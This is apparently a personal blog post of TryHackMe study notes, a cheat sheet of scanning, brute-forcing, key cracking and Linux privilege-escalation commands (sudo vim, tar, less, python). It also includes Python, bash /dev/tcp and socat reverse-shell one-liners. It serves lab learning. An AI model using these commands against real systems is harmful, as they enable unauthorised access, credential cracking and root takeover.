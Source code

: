```yaml
---
title: "Basic Cybersecurity Notes"
date: 2021-12-04T21:03:50+01:00
---
```


# Introduction 

This post contains some notes I have taken while doing some THM(Try Hack Me) challenges 

# NMAP Basic scan with outfile 

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

# Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# Privilege scalation with vim

there are 2 ways of running a shell as root with vim

## _First option_
sudo vim 
 -> :set shell=/bin/sh
 -> :shell

## _Second option_
sudo vim -c ':!/bin/sh'


# Privilege scalation with tar

If the user is allowed in the sudoers file we can easily become root by running _sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh_

# Using and understanding netcat

to set up a listening port in nc

nc -lnvp portnumber

# Read pcaps

Could use wireshark

If you are looking for a password strings will just do the job for it and it will provide more clarity

# Bash remote shell

echo 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /path/to/script run by root

# Privesc with less
you can run less with _sudo_ against a file and enter in less's command mode by typing !/bin/sh

Example

sudo less file.log
!/bin/sh

# GTFOs bin with python

In order to get a privileged shell with python (only if it has the suid set) we can run

python -c 'import os; os.system("/bin/sh")'

# Stable shell with pty

When we stabblish the first shell with nc it tends not to have a pty which for some porcesses it can be stressful

to solve that you can run this python adhoc command python -c 'import pty; pty.spawn("/bin/bash")' which gets you a tty that lets you freely run all the commands you need without prompting any error nor warning about not having a tty


# Socat GTFO bin

To get a remote shell on a machine using socat you need to run this
this is run on your local machine

socat file:`tty`,raw,echo=0 tcp-listen:$port

this is run on the remote machine
sudo /usr/bin/socat tcp-connect:$yourIP:$yourport exec:sh,pty,stderr,setsid,sigint,sane
